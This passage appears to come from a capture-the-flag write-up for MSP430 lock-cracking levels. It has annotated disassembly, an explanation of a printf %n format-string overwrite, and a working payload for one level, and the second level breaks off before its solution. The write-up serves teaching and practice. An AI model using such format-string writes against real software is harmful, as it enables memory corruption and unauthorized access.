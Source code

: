 ```
446a:  b012 de46      call	#0x46de <strcpy>    <-- copy onto the stack (one null byte only)
446e:  3f40 0024      mov	#0x2400, r15
4472:  b012 b044      call	#0x44b0 <test_password_valid>   <-- test password
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>    <-- prints password after check, also printf not putchar (format string vulnerability)
4480:  2153           incd	sp
4482:  3f40 0a00      mov	#0xa, r15
4486:  b012 5045      call	#0x4550 <putchar>
448a:  8193 0000      tst	0x0(sp)   <-- cannot be zero (HSM return)
448e:  0324           jz	#0x4496 <main+0x5e>
4490:  b012 da44      call	#0x44da <unlock_door>
4494:  053c           jmp	#0x44a0 <main+0x68>
4496:  3012 1f45      push	#0x451f "That entry is not valid."
449a:  b012 c845      call	#0x45c8 <printf>
449e:  2153           incd	sp
44a0:  0f43           clr	r15
44a2:  3150 1600      add	#0x16, sp
```

This a classic format string challenge.

This will be the structure of our payload:

- address to override
- padding
- `%n` to write

This attack works because when `printf` sees `%n` it will write the number of character printed to the location of the next pointer (which is also on the stack and controllable).

password: `103C 2578 256E`

# Novosibirsk - 40pts

```
4438:  0441           mov	sp, r4
443a:  2453           incd	r4
443c:  3150 0cfe      add	#0xfe0c, sp
4440:  3012 da44      push	#0x44da "Enter your username below to authenticate.\n"
4444:  b012 c645      call	#0x45c6 <printf>
4448:  b140 0645 0000 mov	#0x4506 ">> ", 0x0(sp)
444e:  b012 c645      call	#0x45c6 <printf>    <-- output
4452:  2153           incd	sp
4454:  3e40 f401      mov	#0x1f4, r14           <-- 0x1f4=500 bytes - overflow
4458:  3f40 0024      mov	#0x2400, r15          <-- to 0x2400
445c:  b012 8a45      call	#0x458a <getsn>     <-- get input
4460:  3e40 0024      mov	#0x2400, r14
4464:  0f44           mov	r4, r15
4466:  3f50 0afe      add	#0xfe0a, r15
446a:  b012 dc46      call	#0x46dc <strcpy>    <-- one null byte only
446e:  3f40 0afe      mov	#0xfe0a, r15
4472:  0f54           add	r4, r15
4474:  0f12           push	r15
4476:  b012 c645      call	#0x45c6 <printf>    <-- print input - format str
447a:  2153           incd	sp
447c:  3f40 0a00      mov	#0xa, r15
4480:  b012 4e45      call	#0x454e <putchar>   <-- change the call address 0x454e --> 0x4536
4484:  0f44           mov	r4, r15
4486:  3f50 0afe      add	#0xfe0a, r15
448a:  b012 b044      call	#0x44b0 <conditional_unlock_door>
448e:  0f93           tst	r15
4490:  0324           jz	#0x4498 <main+0x60>
4492:  3012 0a45      push	#0x450a "Access Granted!"
```